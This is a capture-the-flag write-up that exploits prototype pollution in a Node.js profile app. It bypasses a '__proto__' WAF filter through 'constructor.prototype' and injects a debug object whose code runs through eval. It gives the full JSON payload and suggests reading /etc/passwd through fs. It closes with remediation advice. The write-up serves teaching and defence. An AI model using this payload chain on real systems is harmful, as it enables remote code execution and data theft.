




## Description
This challenge revolves around a web application that allows users to supply JSON data to build a user profile by recursively merging the user-supplied JSON object into existing objects. However, the Web Application Firewall (WAF) was not implemented properly, allowing attackers to supply input that could pollute the JavaScript Object.prototype. Although the WAF is blacklisting the string `__proto__`, which should prevent attackers from injecting it as a key, it can be bypassed by performing prototype pollution via the Object's constructor instead.

## Prototypes in JavaScript
In JavaScript, prototypes are a fundamental part of how objects inherit properties and methods. Every JavaScript object has the prototype property built-in, and an object inherits properties of their prototypes if the property is not explicitly defined on the object itself. This allows different objects to be internally linked, and objects that reuse properties and methods of existing objects can be created. 

As mentioned, every object has a prototype. The prototype itself is an object, thus also having its own prototype, creating what is known as the prototype chain until we reach a prototype that is null.

## Exploitation 
The source code of the web application was analysed and it functions as follows:
1. A random object containing a hacker profile is selected
2. The parsed user input is recursively merged with the random hacker profile
3. The resulting profile object is enumerated to check for the "lastViewed" key
4. If an error occurs during the object's enumeration, debug code is run as long the `appConfig.debug.active` property is set to `true`

By analyzing the source code in detail, we can gain a better understanding of how our input is handled, and identify potential vulnerabilies and avenues for exploitation.

### Code Analysis
Let's start off by first looking at the properties of a hacker profile, which can be found in the setup code:

```json
{
    "picture": "https://static.vecteezy.com/ti/gratis-vektor/p1/9521808-vintage-eleganta-lejonkungen-krona-illustrationer-vector.jpg",
    "username": "minilucker",
    "isActive": true,
    "description": "a zero-click 0-day is an error that is so violent that you have 0 days to patch it",
    "lastViewed": Date(),
    "impact": 35,
    "points": 1337,
    "bugCount": 102,
}
```

Next, let's look at how our input is handled:

```javascript
// Take user profile properties
var profile = decodeURIComponent("<USER_INPUT>")
if ( profile.length == 0 ) {
    profile = "{}"
}
profile = JSON.parse(profile)

const defaultUser = getRandomProfile(profiles)
const user = setUserProperties(defaultUser, profile)
```

The code here does not reveal much, as it just parses our input as JSON data, before getting a random hacker profile and running the `setUserProperties()`, taking in the hacker profile and our user-supplied input as arguments. Let's take a look at how the `setUserProperties()` function works:


```javascript
// Set the user properties
function setUserProperties(target, source) {
    for (let key of Object.keys(source)) {
        typeof target[key] !== "undefined" && typeof source[key] === "object" ?
            target[key] = setUserProperties(target[key], source[key]) :
            target[key] = source[key];
    }
    return target
}
```

The function recursively copies properties from our user input to the hacker profile. It loops through all keys in source and checks if the key exists in the hacker profile is defined and the corresponding value of the key in our user input is an object, it recursively merges them. Otherwise, it directly assigns our supplied properties to the hacker profile. The resulting merged object is assigned to the `user` variable.

The next segment of code consists of a try-catch block, which handles the rendering of the `user` object.

```javascript
try {
    Object.keys(user).forEach((key) => {
        if (key === "lastViewed") {
            user[key] = user[key].toLocaleString().split('GMT')[0]
        } else {
            user[key] = user[key].toString()
        }
    })
    console.log(ejs.render(fs.readFileSync('index.ejs', "utf-8"), { user, error: undefined, logs: "" }))
    
} catch (error) {
    if (appConfig.debug && appConfig.debug.active === true) {
        const logs = eval(`${appConfig.debug.code}`)
        console.log(ejs.render(fs.readFileSync('index.ejs', "utf-8"), { user: undefined, error, logs }))
    }
    else {
        console.log(ejs.render(fs.readFileSync('index.ejs', 'utf-8'), { error, user:undefined, logs: undefined }))
    }
}
```

The code snippet checks for the value associated with the `lastViewed` key in the `user` object and splits it on the string `GMT`. It also converts the other properties to string format before finally rendering the hacker profile back to the frontend.

However, this is where things get interesting. Notice how errors are being handled should an error occur while looping through each key in the `user` object. The program is checking for the `debug` object within the `appConfig` object. This `debug` object also seems to store JavaScript code in its `code` property, which is run via the `eval()` function. Unfortunately, the initialised `appConfig` object (which we do not have direct access to) does not have the `debug` property:

```javascript
// Define the app config
appConfig = {
    title: "Hacker Profile",
    author: "Minilucker"
}
```

If only there was a way to manipulate the `appConfig` object and insert the `debug` property. This is where prototype pollution comes in. Since `user` (which we can manipulate) and `appConfig` are objects, they share the same prototype. Hence, if we are able to pollute `user`'s prototype and add in the `debug` property, although the catch block is unable to find the `debug` property in the `appConfig` object, it will be able to find it in `appConfig`'s prototype, and thus be able to reach the `eval()` function.

### Creating the Payload
From the code analysis, we can derive the following goals:
1. Throw an error as the properties of the merged profile object is being enumerated so that the catch block is reached
2. Pollute the object's prototype via user input to include `debug`, `debug.active`, and `debug.code` properties in the prototype and assign them values that will return a truthy value in the IF condition within the catch block

If we look at the code in the try block, we can see the line

```javascript
user[key] = user[key].toString()
```

where the `toString()` function is a default function defined as part of the JavaScript Object's prototype. Since it exists in the prototype, we can override it. The idea is to change `toString` to not be a function, and then invoke it to throw a TypeError. Hence, let's try the following payload:

```json
{
    "random": {
        "toString": {}
    }
}
```



As we can see, the payload was successful as the else statement in the catch block is rendering the error, but without any error logs. We have achieved Goal #1 of reaching the catch block. However, we want the IF condition to return a truthy value for the `eval()` function to run, and hence we need to achieve Goal #2 of prototype pollution.

In typical fashion, we can achieve prototype pollution by merging an object with the following payload:

```json
{
  "__proto__": "value"
}
```

Unfortunately, this example payload will not work in this case due to the Web Application Firewall which blacklists the string `"__proto__"`, replacing it with `"Nah_I_don_t_think_so"`:



Fortunately, we can bypass this restriction through another method by accessing the prototype through the object's constructor:

```json
{
    "constructor": {
        "prototype": "value"
  }
}
```

Now that we have a way to bypass the WAF, we just need to add in the `debug` property as well as its child properties as follows:

```json
{
    "constructor": {
        "prototype": {
            "debug": {
                "active": true,
                "code": "process.env.FLAG"
            }
        }
    }
}
```

 > `eval("process.env.FLAG")` will return us the FLAG environment variable.

Combine this payload with the one from Goal #1 and we have our final payload:

```json
{
    "constructor": {
        "prototype": {
            "debug": {
                "active": true,
                "code": "process.env.FLAG"
            }
        }
    },
    "random": {
        "toString": {}
    }
}
```

If we input the payload, the flag is revealed:



We can modify our `debug.code` to leak more sensitive data from the server. Since the following lines of code is present in the setup, we have access to the File System module:

```javascript
const fs = require("fs")
```

Thus, if for example, we were to change `debug.code` to something like `fs.readFileSync('/etc/passwd', 'utf-8')`, we could leak out the usernames of user accounts on the server, a huge compromise to data confidentiality:



## Proof of Concept
With our crafted payload, we are able to
1. Bypass the WAF restriction
2. Pollute the JavaScript Object.prototype
3. Run arbitrary JavaScript code

**PAYLOAD: `{"constructor": {"prototype": {"debug": {"active": true,"code":"process.env.FLAG"}}},"random": {"toString":{}}}`**

**FLAG: `FLAG{$m4ll_m1st4ke_t0_rcE!}`**

## Risk
An attacker could exploit this vulnerability to perform Remote Code Execution (RCE) and run arbitrary JavaScript code, disclosing sensitive information such as environment variables, and even read files on the web server.

## Remediation
The following methods could be used to prevent Prototype Pollution attacks
- Use Object.create(proto) to create hacker profile objects with a custom prototype
- Run Object.freeze(Object.prototype) to prevent modifications from being made on the default prototype
- Add new WAF rules to prevent keywords such as "constructor" or "prototype" from being used as keys. However, this method is tricky to implement as there may be loopholes attackers can exploit to bypass such rules.

